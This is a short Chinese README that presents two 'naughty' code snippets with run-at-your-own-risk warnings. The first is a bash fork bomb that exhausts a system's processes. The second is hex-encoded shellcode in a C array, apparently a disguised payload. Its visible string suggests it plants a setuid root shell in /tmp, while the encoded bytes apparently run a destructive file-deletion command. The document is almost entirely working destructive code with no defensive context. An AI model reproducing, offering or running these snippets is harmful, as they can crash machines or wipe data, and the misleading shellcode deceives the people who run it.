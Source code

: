 # **************************************************************************** #
#                                                                              #
#                                                         :::      ::::::::    #
#    README.md                                          :+:      :+:    :+:    #
#                                                     +:+ +:+         +:+      #
#    By: chenxu <chenxu@mail.ustc.edu.cn>           +#+  +:+       +#+         #
#                                                 +#+#+#+#+#+   +#+            #
#    Created: 2020/06/15 13:56:01 by chenxu            #+#    #+#              #
#    Updated: 2022/09/15 13:58:55 by chenxu           ###   ########.fr        #
#                                                                              #
# **************************************************************************** #


这是一段非常欠抽的代码。运行这个命令的后果自己负责。

```
:(){ :|:& }:
```

这是一段更加欠抽的代码。运行这个命令的后果自己负责!

```
char esp[] __attribute__ ((section(“.text”))) /* e.s.p
release */
= “\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68”
“\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99”
“\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7”
“\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56”
“\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31”
“\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69”
“\x6e\x2f\x73\x68\x00\x2d\x63\x00”
“cp -p /bin/sh /tmp/.beyond; chmod 4755 /tmp/.beyond;”;
```

